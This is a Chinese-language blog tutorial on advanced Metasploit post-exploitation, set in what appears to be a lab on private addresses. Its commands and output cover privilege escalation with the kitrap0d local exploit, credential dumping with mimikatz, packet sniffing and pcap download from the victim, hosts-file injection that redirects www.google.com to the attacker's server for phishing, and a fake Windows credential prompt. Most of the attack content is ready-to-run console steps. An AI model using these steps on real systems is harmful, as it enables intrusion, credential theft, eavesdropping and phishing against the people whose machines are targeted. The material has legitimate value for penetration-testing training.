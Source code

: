 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit高级扩展功能
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit高级扩展功能
lock: need
---
```


# Metasploit高级扩展功能

### 用Metasploit提升权限 

有时，在使用getsystem提权的时候会失败，此时，我们可以使用后渗透模块将控制权限级别提高至最高级别。这里，我们以Windows Server 2008 SP1操作系统为例，其中，使用本地渗透模块绕过了限制并获得了目标的完全管理权限。

```
meterpreter > back
msf5 > use exploit/windows/local/ms10_015_kitrap0d 
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit
```

这里，我们使用 exploit/windows/local/ms10_015_kitrap0d 模块提升了控制权限，并获得了最高级别的管理权限。

### 使用mimikatz查找明文密码

mimikatz可以直接从lsass服务获取Windows中状态为活跃的账号的明文密码。

可以在Metasploit中使用load mimikatz命令载入mimikatz模块，之后就可以使用mimikatz模块中的kerberos命令来查找密码。

```
meterpreter > load mimikatz 
Loading extension mimikatz...Success.
meterpreter > kerberos 
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain        User             Password
------   -------    ------        ----             --------
0;62769  NTLM       LIUYAZHUANG   lyz              
0;997    Negotiate  NT AUTHORITY  LOCAL SERVICE    
0;996    Negotiate  NT AUTHORITY  NETWORK SERVICE  
0;52356  NTLM                                      
0;999    NTLM       WORKGROUP     LIUYAZHUANG$     

meterpreter > 
```

这里，我删除了密码。

### 使用Metasploit进行流量嗅探

#### 使用sniffer模块

```
meterpreter > use sniffer 
Loading extension sniffer...Success.
```

#### 列出目标主机上的所有网络接口

```
meterpreter > sniffer_interfaces 

1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )

meterpreter > 
```

#### 启动网络嗅探

```
meterpreter > sniffer_start
[-] Usage: sniffer_start [interface-id] [packet-buffer (1-200000)] [bpf filter (posix meterpreter only)]
meterpreter > 
meterpreter > sniffer_start 1 1000
[*] Capture started on interface 1 (1000 packet buffer)
```

输入sniffer_start 1 1000命令启动网络接口上的嗅探功能，其中1表示网卡ID,1000是缓冲区的大小。

#### 下载pcap数据包

```
meterpreter > sniffer_dump 
[-] Usage: sniffer_dump [interface-id] [pcap-file]
meterpreter > sniffer_dump 1 1.pcap
[*] Flushing packet capture buffer for interface 1...
[*] Flushed 1000 packets (993284 bytes)
[*] Downloaded 052% (524288/993284)...
[*] Downloaded 100% (993284/993284)...
[*] Download completed, converting to PCAP...
[*] PCAP file written to 1.pcap
meterpreter >
```

此时，会把1.pcap下载到/root目录下(前提是用root账户登录的Kali)

#### 使用wireshark查看数据包

```
root@binghe:~# wireshark 1.pcap 
```

![img](https://img-blog.csdnimg.cn/20190127203707765.png)

#### 停止网络嗅探

```
meterpreter > sniffer_stop
[-] Usage: sniffer_stop [interface-id]
meterpreter > 
meterpreter > sniffer_stop 1
[*] Capture stopped on interface 1
[*] There are 74 packets (14485 bytes) remaining
[*] Download or release them using 'sniffer_dump' or 'sniffer_release'
meterpreter > 
```

### 使用Metasploit对host文件进行注入

可以通过对目标主机的host文件进行注入展开钓鱼攻击——将制定域名的条目添加到目标主机的host文件中。

```
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(windows/http/rejetto_hfs_exec) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ LIUYAZHUANG  192.168.175.128:4444 -> 192.168.175.130:1056 (192.168.175.130)

msf5 exploit(windows/http/rejetto_hfs_exec) > use post/windows/manage/inject_host 
msf5 post(windows/manage/inject_host) > show options

Module options (post/windows/manage/inject_host):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DOMAIN                    yes       Domain name for host file manipulation.
   IP                        yes       IP address to point domain name to.
   SESSION                   yes       The session to run this module on.

msf5 post(windows/manage/inject_host) > set IP 192.168.175.128
IP => 192.168.175.128
msf5 post(windows/manage/inject_host) > set DOMAIN www.google.com
DOMAIN => www.google.com
msf5 post(windows/manage/inject_host) > set SESSION 2
SESSION => 2
msf5 post(windows/manage/inject_host) > exploit

[*] Inserting hosts file entry pointing www.google.com to 192.168.175.128..
[+] Done!
[*] Post module execution completed
msf5 post(windows/manage/inject_host) > 
msf5 post(windows/manage/inject_host) > sessions

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ LIUYAZHUANG  192.168.175.128:4444 -> 192.168.175.130:1056 (192.168.175.130)

msf5 post(windows/manage/inject_host) > 
msf5 post(windows/manage/inject_host) > 
msf5 post(windows/manage/inject_host) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 
```

此时，在目标机的C:/Windows/System32/drivers/etc/hosts文件中多了一行

```
192.168.175.128 www.google.com
```

如下图所示：

![img](https://img-blog.csdnimg.cn/20190127203850282.png)

此时，在目标机上访问http://www.google.com/，结果如下图：

![img](https://img-blog.csdnimg.cn/20190127203929154.png)

访问的是我们在Kali上配置的页面。

### 登录密码的钓鱼窗口

```
meterpreter > run post/windows/gather/phish_windows_credentials 
```

此时，会在目标主机上弹出外观和Windows系统认证弹窗一样的窗口，这个窗口要求受害者必须输入正确的用户名和密码后才能继续正常工作。

如下图所示：

![img](https://img-blog.csdnimg.cn/20190127204015499.png)

当用户输入了正确的用户名和密码之后，就会在我们的命令行中显示出来，如下图所示：

![img](https://img-blog.csdnimg.cn/20190127204106537.png)



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
